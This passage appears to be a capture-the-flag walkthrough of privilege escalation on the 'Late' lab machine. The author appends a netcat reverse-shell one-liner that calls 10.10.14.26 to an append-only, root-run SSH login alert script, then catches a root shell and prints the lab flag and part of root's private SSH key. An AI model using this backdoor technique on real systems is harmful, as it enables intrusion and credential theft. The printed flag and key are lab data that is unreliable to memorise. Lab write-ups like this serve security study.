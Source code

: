 The script `/usr/local/sbin/ssh-alert.sh` is running on login, however it's write protected:
```bash
svc_acc@late:~$ ls -al /usr/local/sbin/ssh-alert.sh
-rwxr-xr-x 1 svc_acc svc_acc 433 May 16 20:33 /usr/local/sbin/ssh-alert.sh
```

HOWEVER, looking on the file attributes we find that we can append to the file (indicated by the 'a'-flag):
```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

```bash
svc_acc@late:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 4488 >/tmp/f" >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 4488 >/tmp/f
```

Log out and in again to trigger the `ssh-alert`-script and grab `root.txt`:
```bash
➜  late nc -lvnp 4488                             
listening on [any] 4488 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.156] 49522
/bin/sh: 0: can't access tty; job control turned off
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
late
# cat /root/root.txt
38007fc077ae764169e09ba12c574fa7
# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEAuDUCfyBofVqk+Qilst0xDnhScDu+kSmXHYBcL1iwxajW5SWp
oGqD39nBh/AzQYcQk4t5xIV8eUlda0zD1pjfPYAOHt9efDSxWaJQ91P5L+qlsCii
efP8M0zlWgN8nzII9MSrRSU7I7iVYaYLawl82JhnoTSt1CoexSDT0T23DPOr2KC/
8XBlIFgZN/pyri0qtG3n3r1lRBQFj1eDMwd2AeeOL+AQUz7b7v5xqErTNvRjC2Yf
xqmIEaqgvTWsxZL2oCJbv9pJ3+ApGaxLJyZgvXMI39ubndiatITMiGbwE61kMV+D
r8d8LKpHBRBTKOzo9VV8dHFhN9KYAFKbAatpKwIDAQABAoIBAGnHdxGNiLNDVCz1
vEFEJ6GJkr2EcWBmo7J7PXSq14gJ9q1LvWazA9uN7kajtqtQZkJz+47QoLP9Xzn4
sRUQYFGusW0lE9r7X0R7o0cD37qWYmMQUoz5gL/szl+sVOoOD3qPXVKtmJJgsteK
RFBI+HpgulGmMJP/RAArY7dqWy2B3XniUWZY+IjOdHYBQSNFbc6kYrwDcpYn1rHt
fwq55t7nyXho25paTbmwRBhBwNA4fK/Kzkbct4bvx1GRxdctqa4NbvoPVTNJ0tnY
7kFn4V6rBV8LiZP9tI5eLWNh+yid7Sca2TgUqQdfcFePD6GnW9qydgTs32fAwbsL
nqNHH1ECgYEA73dBhgBnvvkSDRUBjJV94q+jeE+7oh2WOOCcMAtu4vQ6Z6ZA1im6
```